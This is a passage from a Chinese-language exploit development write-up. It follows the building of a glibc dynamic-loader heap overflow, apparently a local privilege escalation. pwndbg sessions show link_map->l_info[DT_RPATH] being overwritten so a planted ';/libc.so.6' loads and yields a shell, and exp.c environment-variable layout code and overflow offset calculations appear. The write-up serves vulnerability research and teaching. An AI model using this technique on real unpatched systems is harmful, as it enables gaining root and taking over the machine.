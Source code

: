 路径就是decompose_rpath  
函数的第二个参数，是一个指针，其值为0x400418  
，指向";"字符串，那么该值是如何算出来的？STRTAB 地址为0x400430  
，我们设置的l->l_info[DT_RPATH]->d_un.d_val = -0x18  
，两者相加，就等于0x400418  
。接着继续调试：  
```
# 执行完decompose_rpath后，查看link_map结构体pwndbg> p **(((struct link_map *) $rbx)->l_rpath_dirs->dirs)$7 = {  next = 0x7f33ac209000,  what = 0x7f33ac238db8 "RPATH",  where = 0x7f33ac2091bb "",  dirname = 0x7f33ac2091b8 ";/",     # 成功设置了libc搜索路径  dirnamelen = 2,  status = 0x7f33ac209198}pwndbg> b open_verifyBreakpoint 4 at 0x7f33ac211940 (2 locations)pwndbg> c*RDI  0x7fff0b17b0a0 ?— ';/tls/x86_64/x86_64/libc.so.6'# 这里可以一直按c，查看rdi寄存器，最简单的路径如下*RDI  0x7fff0b17b0a0 ?— ';/libc.so.6'# 接着就可以关闭断点，继续执行了，就可以得到shell，如果执行失败，那可能是因为你没创建';/libc.so.6'文件pwndbg> c$ iduid=1000(ubuntu) gid=1000(ubuntu)
```  
  
由于是使用 gdb 进行调试，所以没能获得 root 权限，但是这并不构成问题。只要我们走通流程，就可以进入下一步。  
  
我们该如何覆盖到link_map->l_info[DT_RPATH]  
结构？我们已知，在执行完__tunables_init  
函数后，下一次申请内存地址就是在_dl_new_object  
函数，也就是说，我们要覆盖的地址和我们溢出的内存是相邻的。  
  
也就是要溢出覆盖到之后偏移为0xb8  
的地址 ，并且这区间的地址值建议覆盖成\\0  
，防止 glibc 代码中有相关的检查导致报错。  
  
我研究出一种简单的方法来快速调试需要覆盖的地址偏移：  
  
1.我们断点下在_dl_new_object函数的calloc处，也就是_dl_new_object+109，方便调试，查看内存布局  
  
2.在exp.c中，envp[0] = fill1;用来填充旧的内存区域，envp[1] = payload;用来进行内存溢出。  
  
因此之后要留有一部分区域置 0，直到设置到\xb8  
:  
```
for (int i=2;i<ENVP_SIZE-1;i++)  envp[i] = "";envp[0x20 + 0xb8] = "\x28\x40\x40";# payload 的长度随便设置，暂时选择了 0x100
```  
  
接着调试，看看我们这样的布局能溢出成怎样的内存布局：  
```
pwndbg> b *(_dl_new_object+109)pwndbg> cpwndbg> vmmap    0x7fca03d3c000     0x7fca03d3e000 rw-p     2000 0      [anon_7fca03d3c]pwndbg> x/64gx 0x7fca03d3c000 + 0x100......0x7fca03d3c1f0: 0x000000000000003d  0x00000000000000000x7fca03d3c200: 0x0000000000000000  0x00000000000000000x7fca03d3c210: 0x0000000000000000  0x00000000000000000x7fca03d3c220: 0x0000000000000000  0x00000000000000000x7fca03d3c230: 0x0000000000000000  0x00000000000000000x7fca03d3c240: 0x0000000000000000  0x00000000000000000x7fca03d3c250: 0x0000000000000000  0x00000000000000000x7fca03d3c260: 0x0000000000000000  0x00000000000000000x7fca03d3c270: 0x0000000000000000  0x00000000000000000x7fca03d3c280: 0x0000000000000000  0x00000000000000000x7fca03d3c290: 0x0000000000000000  0x00000000000000000x7fca03d3c2a0: 0x0000000000000000  0x00000000000000000x7fca03d3c2b0: 0x0000404028000000  0x2e6362696c673a000x7fca03d3c2c0: 0x6d2e636f6c6c616d  0x00003d74736166780x7fca03d3c2d0: 0x0000000000000000  0x00000000000000000x7fca03d3c2e0: 0x0000000000000000  0x00000000000000000x7fca03d3c2f0: 0x0000000000000000  0x0000000000000000
```  
  
我们覆盖的值为0x404028  
，从上面可以看出该值的地址为: 0x7fca03d3c2b3  
，计算一下：  
```
>>> hex(0x7fca03d3c2b3 - 0x7fca03d3c1f8)'0xbb'# 发现大于0xb8
```  
  
